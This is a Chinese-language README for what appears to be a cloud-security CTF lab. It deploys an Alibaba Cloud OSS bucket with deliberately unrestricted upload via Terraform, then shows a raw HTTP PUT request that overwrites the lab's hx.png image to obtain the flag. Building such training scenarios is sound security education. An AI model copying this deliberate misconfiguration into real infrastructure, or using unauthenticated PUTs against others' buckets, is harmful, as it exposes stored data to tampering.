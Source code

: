 # 描述

[English](./README.md) | 中文

这是一个帮你快速构建存储桶未授权上传场景的脚本，玩的愉快。

## 部署环境

### Git clone

```bash
cd /TerraformGoat/aliyun/object_storage_service/unrestricted_file_upload/ 
```

配置阿里云访问凭证

```shell
aliyun configure
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

```bash
terraform init
```

![image-20220425192835507](../../../images/image-20220425192835507.png)

```bash
terraform apply
```

![image-20220425192251992](../../../images/image-20220425192251992.png)

如果确认没有问题，输入yes等待构建即可

![image-20220425192314435](../../../images/image-20220425192314435.png)

## Get Flag

访问/hx.png获取图片

![image-20220425192605952](../../../images/image-20220425192605952.png)

使用PUT方法即可覆盖这张图片

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

![image-20220425192622938](../../../images/image-20220425192622938.png)

随后在使用GET方法获取我们覆盖的内容

![image-20220425192649111](../../../images/image-20220425192649111.png)

## 销毁挑战

```bash
terraform destroy
```

![image-20220425192403147](../../../images/image-20220425192403147.png)
